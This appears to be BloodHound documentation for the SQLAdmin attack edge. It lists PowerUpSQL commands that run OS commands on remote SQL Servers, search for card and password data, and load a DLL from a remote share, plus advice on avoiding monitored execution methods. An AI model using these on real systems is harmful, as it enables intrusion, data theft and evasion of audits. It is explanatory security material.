 ```yaml
---
title: SQLAdmin
description: The user is a SQL admin on the target computer
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

There is at least one MSSQL instance running on the computer where the user with the inbound SQLAdmin edge is the account configured to run the SQL Server instance. The typical configuration for MSSQL is to have the local Windows account or Active Directory domain account that is configured to run the SQL Server service (the primary database engine for SQL Server) have sysadmin privileges in the SQL Server application. As a result, the SQL Server service account can be used to log into the SQL Server instance remotely, read all of the databases (including those protected with transparent encryption), and run operating systems command through SQL Server (as the service account) using a variety of techniques.

For Windows systems that have been joined to an Active Directory domain, the SQL Server instances and the associated service account can be identified by executing a LDAP query for a list of “MSSQLSvc” Service Principal Names (SPN) as a domain user. In short, when the Database Engine service starts, it attempts to register the SPN, and the SPN is then used to help facilitate Kerberos authentication.

This clip demonstrates how to abuse this edge:

<iframe id="youtube-1659" frameborder="0" allowfullscreen="" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" title="Player for 2 11 BloodHound Head to Tail Andy Robbins Rohan Vazarkar" width="100%" height="420" src="https://www.youtube.com/embed/fqYoOoghqdE?autoplay=0&amp;controls=0&amp;disablekb=1&amp;playsinline=1&amp;cc_load_policy=0&amp;cc_lang_pref=auto&amp" data-gtm-yt-inspected-6="true"></iframe>

Abuse Info
-----------

Scott Sutherland from NetSPI has authored PowerUpSQL, a PowerShell Toolkit for Attacking SQL Server. Major contributors include Antti Rantasaari, Eric Gruber, and Thomas Elling. Before executing any of the below commands, download PowerUpSQL and load it into your PowerShell instance. Get PowerUpSQL here: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Finding Data**

Get a list of databases, sizes, and encryption status:
```
Get-SQLDatabaseThreaded –Verbose -Instance sqlserver\\instance –Threads 10 -NoDefaults
```
Search columns and data for keywords:
```
Get-SQLColumnSampleDataThreaded –Verbose -Instance sqlserver\\instance –Threads 10 –Keyword "card, password" –SampleSize 2 –ValidateCC -NoDefaults | ft -AutoSize
```
**Executing Commands**

Below are examples of PowerUpSQL functions that can be used to execute operating system commands on remote systems through SQL Server using different techniques. The level of access on the operating system will depend largely what privileges are provided to the service account. However, when domain accounts are configured to run SQL Server services, it is very common to see them configured with local administrator privileges.

xp_cmdshell Execute Example:
```
Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10 -Instance sqlserver\instance
```
Agent Job Execution Examples:
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem CmdExec -Command "echo hello > c:\\windows\\temp\\test1.txt" -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\\windows\\temp\\test2.txt' -Sleep 20 -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem VBScript -Command 'c:\\windows\\system32\\cmd.exe /c echo hello > c:\\windows\\temp\\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem JScript -Command 'c:\\windows\\system32\\cmd.exe /c echo hello > c:\\windows\\temp\\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword
```
```
Python Subsystem Execution:
```
Invoke-SQLOSPython -Verbose -Command "Whoami" -Instance sqlserver\instance
```
R subsystem Execution Example:
```
Invoke-SQLOSR -Verbose -Command "Whoami" -Instance sqlserver\instance
```
OLE Execution Example:
```
Invoke-SQLOSOle -Verbose -Command "Whoami" -Instance sqlserver\instance
```
CLR Execution Example:
```
Invoke-SQLOSCLR -Verbose -Command "Whoami" -Instance sqlserver\instance
```
Custom Extended Procedure Execution Example:

1.  Create a custom extended stored procedure:
```
Create-SQLFileXpDll -Verbose -OutFile c:\temp\test.dll -Command "echo test > c:\\temp\\test.txt" -ExportName xp_test
```
2.  Host the test.dll on a share readable by the SQL Server service account:
```
Get-SQLQuery -Verbose -Query "sp\_addextendedproc 'xp\_test', '\\\yourserver\\yourshare\\myxp.dll'" -Instance sqlserver\instance
```
3.  Run extended stored procedure:
```
Get-SQLQuery -Verbose -Query "xp_test" -Instance sqlserver\instance
```
4.  Remove extended stored procedure:
```
Get-SQLQuery -Verbose -Query "sp\_dropextendedproc 'xp\_test'" -Instance sqlserver\instance
```
Opsec Considerations
---------------------

Prior to executing operating system commands through SQL Server, review the audit configuration and choose a command execution method that is not being monitored.

View audits:
```
SELECT * FROM sys.dm\_server\_audit_status
```
View server specifications:
```
SELECT audit_id,
a.name as audit_name,
s.name as server\_specification\_name,
d.audit\_action\_name,
s.is\_state\_enabled,
d.is_group,
d.audit\_action\_id,
s.create_date,
s.modify_date
FROM sys.server_audits AS a
JOIN sys.server\_audit\_specifications AS s
ON a.audit_guid = s.audit_guid
JOIN sys.server\_audit\_specification_details AS d
ON s.server\_specification\_id = d.server\_specification\_id
```
View database specifications:
```
SELECT a.audit_id,
a.name as audit_name,
s.name as database\_specification\_name,
d.audit\_action\_name,
d.major_id,
OBJECT_NAME(d.major_id) as object,
s.is\_state\_enabled,
d.is_group, s.create_date,
s.modify_date,
d.audited_result
FROM sys.server_audits AS a
JOIN sys.database\_audit\_specifications AS s
ON a.audit_guid = s.audit_guid
JOIN sys.database\_audit\_specification_details AS d
ON s.database\_specification\_id = d.database\_specification\_id
```
If server audit specifications are configured on the SQL Server, event ID 15457 logs may be created in the Windows Application log when SQL Server level configurations are changed to facilitate OS command execution.

If database audit specifications are configured on the SQL Server, event ID 33205 logs may be created in the Windows Application log when Agent and database level configuration changes are made.

A summary of the what will show up in the logs, along with the TSQL queries for viewing and configuring audit configurations can be found at [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql)

References
----------

* [https://github.com/NetSPI/PowerUpSQL/wiki](https://github.com/NetSPI/PowerUpSQL/wiki)
* [https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation](https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation)
* [https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver)
* [https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017)
* [https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/](https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/)
